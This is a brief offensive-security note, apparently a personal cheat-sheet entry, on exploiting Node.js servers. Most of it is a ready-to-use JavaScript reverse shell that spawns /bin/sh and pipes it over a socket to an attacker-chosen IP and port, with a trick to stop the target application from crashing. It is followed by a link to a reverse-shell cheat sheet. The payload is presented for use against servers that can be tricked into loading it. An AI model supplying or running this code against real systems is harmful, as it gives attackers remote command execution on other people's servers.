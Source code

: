 # Exploiting Node.js

## Reverse Shell

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){ // Customize port and IP address to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents the Node.js application fro
m crashing
})();
```

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- - - -

👤 Nathan Acks
📅 October 9, 2021

